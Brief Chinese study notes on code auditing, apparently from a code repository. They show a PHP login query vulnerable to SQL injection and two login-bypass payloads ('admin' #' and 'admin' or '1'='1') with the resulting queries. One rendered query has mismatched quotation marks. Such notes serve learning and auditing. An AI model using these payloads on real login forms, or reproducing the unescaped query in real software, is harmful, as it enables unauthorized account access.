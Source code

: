 # 代码审计笔记
## sql注入：
###原始代码
``` php
	$query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
```
###注入代码
```sql
admin' #
SELECT * FROM `users` WHERE user = 'admin' #' AND password = 'd41d8cd98f00b204e9800998ecf8427e';
admin' or '1' ='1
SELECT * FROM `users` WHERE user = 'admin’ or ’1=’1' AND password = 'd41d8cd98f00b204e9800998ecf8427e';
```
